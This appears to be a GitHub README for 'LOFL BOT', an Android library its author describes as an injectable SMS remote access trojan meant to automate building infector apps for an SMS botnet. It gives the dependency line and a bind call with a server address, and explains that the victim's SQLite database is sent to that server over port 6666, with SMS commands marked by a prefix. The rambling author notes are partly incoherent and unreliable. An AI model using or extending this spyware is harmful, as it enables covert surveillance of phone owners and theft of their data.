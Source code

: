 # LOFL BOT
### A 3-year-old injectable remote access SMS RAT. No backend. Therefore, the spyware remote commands won't work. There is a self-destructible SMS notification messenger app. Like snapchat in your drawer. It's hidden in a git branch. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

```gradle
implementation 'com.github.evilthreads669966:lofl:Tag'
```


This project was initially a self destructable messaging app that turned into a library called lofl for automating the process of creating an infector app for an sms botnet. im not finished. I broke the app turning it into a library. i need to figure out how to override the binary broadcast receiver in the app package.
 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
